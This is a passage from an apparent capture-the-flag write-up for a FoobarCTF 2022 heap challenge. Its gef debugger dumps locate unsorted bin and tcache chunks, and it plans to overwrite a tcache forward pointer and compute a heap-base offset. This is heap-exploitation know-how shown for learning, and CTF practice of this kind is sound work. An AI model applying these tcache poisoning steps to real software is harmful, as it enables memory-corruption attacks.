And unsorted bin contain a freed chunk:

![unsorted_bin.png](/static/images/foobar-ctf-2022/images/unsorted_bin.png)

Check the unsorted bin and we can see this:

```
gef➤  x/50xg 0x1604a20
0x1604a20:  0x0000000000000000  0x0000000000000221
0x1604a30:  0x0000000001604c60  0x00007f2a65850c00    <-- Unsorted bin
0x1604a40:  0x0000000000000000  0x0000000000000000
0x1604a50:  0x0000000000000000  0x0000000000000000
0x1604a60:  0x0000000000000000  0x0000000000000000
0x1604a70:  0x0000000000000000  0x0000000000000000
0x1604a80:  0x0000000000000000  0x0000000000000000
0x1604a90:  0x0000000000000000  0x0000000000000000
0x1604aa0:  0x0000000000000000  0x0000000000000000
0x1604ab0:  0x0000000000000000  0x0000000000000000
0x1604ac0:  0x0000000000000000  0x0000000000000000
0x1604ad0:  0x0000000000000000  0x0000000000000000
0x1604ae0:  0x0000000000000000  0x0000000000000000
0x1604af0:  0x0000000000000000  0x0000000000000000
0x1604b00:  0x0000000000000000  0x0000000000000000
0x1604b10:  0x0000000000000000  0x0000000000000000
0x1604b20:  0x0000000000000000  0x0000000000000000
0x1604b30:  0x0000000000000000  0x0000000000000111
0x1604b40:  0x0000000001605e14  0x0000000001604010    <-- Tcache
0x1604b50:  0x0000000000000000  0x0000000000000000
0x1604b60:  0x0000000000000000  0x0000000000000000
0x1604b70:  0x0000000000000000  0x0000000000000000
0x1604b80:  0x0000000000000000  0x0000000000000000
0x1604b90:  0x0000000000000000  0x0000000000000000
0x1604ba0:  0x0000000000000000  0x0000000000000000
```

The unsorted bin size is 0x210 so that we can malloc a chunk larger than 0x100 to change the forward pointer in tcache chunk. But first, we need to take the offset between heap base address and that tcache chunk address `0x1604b40`:

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
...
0x0000000000404000 0x0000000000405000 0x0000000000004000 rw- /home/nguyenhuutri/CTF/FoobarCTF/deathnote/dist/dnote_patched
0x0000000001604000 0x0000000001625000 0x0000000000000000 rw- [heap]
0x00007f2a6568a000 0x00007f2a6568c000 0x0000000000000000 rw-
0x00007f2a6568c000 0x00007f2a656b2000 0x0000000000000000 r-- /home/nguyenhuutri/CTF/FoobarCTF/deathnote/dist/libc-2.32.so
...

gef➤  p/x  0x1604b40- 0x0000000001604000
$1 = 0xb40
```
